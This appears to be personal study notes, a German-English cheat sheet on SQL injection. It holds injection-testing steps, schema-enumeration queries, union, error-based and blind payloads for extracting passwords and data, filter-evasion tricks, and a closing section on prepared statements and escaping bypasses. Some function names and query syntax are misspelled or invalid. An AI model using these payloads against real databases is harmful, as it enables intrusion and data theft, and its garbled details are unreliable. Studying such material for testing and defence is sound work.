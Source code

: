 # Abfragen
```sql
SELECT col1, ..., colN FROM [DB].table [WHERE condition] [ORDER BY col [DESC]] [LIMIT N,M]
```

##### Subquerys
```sql
SELECT * FROM inbox WHERE email = (SELECT email FROM contacts WHERE user = 'admin');
SELECT NOW();
SELECT * WHERE ID = 8/4;
```

# Injections
Find point of interest in PHP:
```php
mysql_request(), mysqli_request(), mssql_request(), pg_request(), ora_exec()
```
... `where id =' + $_[GET]`
```sql
... WHERE id = 0 OR True
```

# Phases:
# 1. Injection Testing
Test for:
- Quotes: `'`, `"`, or `` ` `` (On error: That is probably the quote used in the code)
- SQL-Befehle (Ungültige Syntax)
- Backslashes: `\` or `\\`
- Rechenoperationen: `id=3` vs. `id=4-1`
- Kommentar-Zeichen: `#`,`/*`,`-- Kommentar`, `;%00`
- Timing: `sleep` (can disturb the databases operation!)
- Boolean Logic: `id=1 and 1` vs. `id=1 or 0`
# 2. Information Gathering
### Get Version
`@@version` or `version()`
### Get User
`@@user` or `user()`
### Get Tablenames
`schema()` or `database()`
###### MySQL
```
SELECT * FROM information_schema.columns where table_schema=database()
```
##### SQLite
```
select * from sqlite_master where type = 'table'
```
##### Postgres
```
SELECT distinct table_name FROM information_schema.tables
```

### Get Column names
```sql
SELECT group_concat(table_column) FROM information_schema.tables WHERE table_name="users"
```
# SQLi Typen
### In-Band
##### Union based
`SELECT username FROM users WHERE id=`...
```sql
0 UNION SELECT password FROM users WHERE id=0 UNION SELECT 3
```
Anzahl ausgewählter Spalten muss in allen Anfragen gleich sein
-> Negate the first request with "AND 1=0"
-> Find out the number of columns in the first request by observing errors
	-> `UNION SELECT 1` -> `UNION SELECT 1,2` -> `UNION SELECT 1,2,3` -> ...
	-> `ORDER BY 1` -> `ORDER BY 2` -> `ORDER BY 3` -> ... 
When there is only one column in the first request, e.g., `SELECT 1`..., use group_concat() to concat all returning columns to one string
```sql
UNION group_concat(SELECT * FROM target_db)
```


##### Error based
`index.php?id=`...
XML-Funktionen:
```sql
1 AND extractvalue(1, CONCAT(0x2e, (SELECT @@version)))
```
```sql
1 AND updatexml(1, CONCAT(0x2e, (SELECT @@version)), 1)
```
-> XPATH syntax error contains sql version or what ever we request

Conditional error/response
```sql
1 UNION SELECT if(versioN() like "4%", 1, (SELECT 1 UNION SELECT 2)
```

Viele weitere Vektoren
### Blind
```sql
AND (SELECT SUSBTRING(table_name,1,1) FROM information_schema.tables) > 'A'
```
##### Boolean based
##### Time based 

### Out-of-band
Can it evaluate DNS querys? Then you could host your own DNS server and log communication. Can it write files? Interpret HTTP?

# Filter Evasion
Case sensitiv?
`UNION` vs `unION`

Blacklist?
`ununionion`

Encoding?
AA: 0x4141

Typecasting?
`0='c'`
`0=0`
`1 (True)`

Use `IF` instead of `WHERE`
Use `%09` instead of Tab
Use `%0a` or `%a0` instead of Newline

# Safe?
##### Prepared Statements are safe (when correctly implemented)
```php
$search = $_GET['search']
$mysqli->prepare("SELECT message FROM posts WHERE message LIKE ?")
bind_params("s", $search)
```
##### mysql_real_esacpe_string escapes, e.g.,  `%` and `"` but nothing else!
```php
$mysqli.mysql_real_esacpe_string($search).'%"'
```
##### is_numeric
Safe, but `is_numeric(0x414141) = true` !
##### addslashes
escapes special chars with slashes. Safe, if database and php use the same charset!
`addslashes(x%bf%27 UNION SELECT)= x%bf\' UNION SELECT`
-> PHP sees this as escaped, but the database might read `x%bf%27` as special asian character and then read it as `special_char' UNION SELECT`